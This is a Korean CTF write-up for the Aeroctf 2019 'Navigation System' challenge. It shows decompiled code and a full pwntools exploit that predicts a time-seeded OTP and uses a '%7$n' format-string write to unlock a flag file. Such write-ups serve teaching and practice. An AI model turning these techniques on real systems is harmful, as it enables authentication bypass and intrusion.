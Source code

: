 ```yaml
---
title: Aeroctf Writeup
date: 2019-03-11
---
```


# Navigation System

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+0h] [ebp-48h]
  unsigned int v5; // [esp+4h] [ebp-44h]
  char s1[4]; // [esp+8h] [ebp-40h]
  char v7[4]; // [esp+18h] [ebp-30h]
  unsigned int v8; // [esp+3Ch] [ebp-Ch]
  int *v9; // [esp+40h] [ebp-8h]

  v9 = &argc;
  v8 = __readgsdword(0x14u);
  wlc_msg();
  __isoc99_scanf("%16s", &s1[2]);
  printf("Password: ");
  fflush(stdout);
  __isoc99_scanf("%32s", &v7[3]);
  if ( strcmp(&s1[2], valid_login) )
  {
    puts("Username is invalid!");
    exit(-1);
  }
  if ( strcmp(&v7[3], valid_password) )
  {
    puts("Passowrd is invalid!");
    exit(-2);
  }
  v5 = genOTPcode(&s1[2], &v7[3]);
  printf("Enter the OTP code: ");
  fflush(stdout);
  __isoc99_scanf("%d", &v4);
  if ( v5 == v4 )
    UserPanel((int)&s1[2]);
  puts("OTP is incorrect!");
  fflush(stdout);
  return -1;
}
```

id, pw는 하드코딩되어 있어 바로 가능한데 OTP 코드가 문제다.

```c
unsigned int __cdecl genOTPcode(char *a1, char *a2)
{
  time_t v2; // eax
  unsigned int v3; // eax

  v2 = time(0);
  srand(*a2 + *a1 + v2);
  v3 = rand();
  return v3 + (v3 >= 0xFFFFFFFF);
}
```

time 기반으로 랜드 생성이라 시드를 맞출 수 있다. *a2 , *a1 = 't' 이다.(id,pw 의 첫 바이트를 가져온다)

대회 때는 못 풀었고 하다가 다른 ctf로 넘어갔는데 다 지나고나서 시드를 다시 맞춰봤다  OTP만  넘어가게되면

```c
void __cdecl __noreturn UserPanel(int a1)
{
  int v1; // [esp+Ch] [ebp-Ch]

  puts("-------------------- User menu --------------------");
  printf("Hello, %s\n", a1);
  fflush(stdout);
  while ( 1 )
  {
    while ( 1 )
    {
      puts("[1] Read latest report");
      puts("[2] Set a station");
      puts("[3] TODO");
      puts("[4] Exit");
      printf("> ");
      fflush(stdout);
      v1 = 4;
      __isoc99_scanf("%d", &v1);
      if ( v1 != 2 )
        break;
      setStation();
    }
    if ( v1 > 2 )
      break;
    if ( v1 != 1 )
      goto LABEL_13;
    readLastReport();
  }
  if ( v1 == 3 )
    UserExit();
  if ( v1 == 4 )
    UserExit();
LABEL_13:
  UserExit();
}
```

요 메뉴로 넘어가고

```c
unsigned int setStation()
{
  char buf[32]; // [esp+Ch] [ebp-2Ch]
  unsigned int v2; // [esp+2Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  printf("Set station > ");
  fflush(stdout);
  buf[read(0, buf, 0x20u)] = 0;
  printf("Station: ");
  printf(buf);
  putchar(10);
  return __readgsdword(0x14u) ^ v2;
}
```

요기의 포맷스트링을 이용해서

```c
int readLastReport()
{
  if ( flag )
    system("/bin/cat report.txt");
  else
    printf("[-] Access denied!");
  return putchar(10);
}
```

report.txt를 읽을 수 있다. 

```python
from pwn import *
from ctypes import *
import time
from datetime import datetime

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

t = remote('185.66.87.233', 5002)

#timestamp = time.mktime(datetime.today().timetuple())
#b = int(float(timestamp))

r("Login:")
s("test_account")
r("Password:")
s("test_password")
r("Enter the OTP code:")

libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
b = libc.time(0)
log.success("time ==> " + hex(b))
libc.srand(0x74*2 + b)
a = libc.rand()
log.success("rand ==> " + hex(a))

s(a)

r(">")
s("2")
r(">")
s(p32(0x0804C058) + "%7$n")
r(">")
s("1")

t.interactive()
```

서버가 너무 느려서 바로 보내기 직전에 time을 돌려줘야 하는 듯 ㅋㅋㅋㅋ (계속 안맞았었다 ㅠㅠ) report.txt가 flag여서 금방 끝 (rand 맞추는게 의도 였던 것 같다!)

```python
libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
b = libc.time(0)
libc.srand(0x74*2 + b)
a = libc.rand()
```

이게 time based srand 맞추기가 참 좋은듯 하다.(앞으로 이거 써야지) 

사실 시드 맞추는 데 여러 뻘짓이 있었는데.. OTP 입력하는 scanf가 %d였는데 %s인줄 알고 계속 팩해서 보냈어서 안맞았던 거였다 ㅠ.. 그래도 여러 방법으로 해봤으니 언젠간 쓸일이 있겠지!

